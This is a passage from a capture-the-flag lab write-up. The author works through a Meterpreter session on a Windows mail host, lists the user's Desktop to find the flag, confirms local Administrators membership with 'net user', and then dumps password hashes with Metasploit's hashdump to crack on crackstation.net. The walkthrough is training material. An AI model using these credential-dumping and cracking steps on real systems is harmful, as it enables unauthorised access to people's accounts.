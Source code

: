 ```terminal
(Meterpreter 3)(C:\Mail\Attachments) > getuid 
Server username: BRICK-MAIL\wrohit
```

I went to the users home and to the Desktop to recover the flag.

```terminal
(Meterpreter 3)(C:\Users\wrohit\Desktop) > ls
Listing: C:\Users\wrohit\Desktop
================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2024-03-11 05:11:31 +0000  desktop.ini
100666/rw-rw-rw-  25    fil   2024-03-11 05:15:22 +0000  flag.txt
```

Next I checked my privileges and found out that I was a member of the `Local Administrators` group, so I have all necessary privileges for further exploitation.
```terminal
C:\Users\wrohit\Desktop>net user wrohit
net user wrohit
User name                    wrohit
Full Name                    wrohit
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            3/28/2024 3:34:28 PM
Password expires             Never
Password changeable          3/28/2024 3:34:28 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2/8/2025 9:56:00 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users                
Global Group memberships     *None                 
The command completed successfully.
```

In Metsaploit you can simply run `hashdump` to dump the hashes of the users, with that we can try solving question 2. I run `hashdump` and then copied the second hash of wrohit to [crackstation.net](https://crackstation.net/).
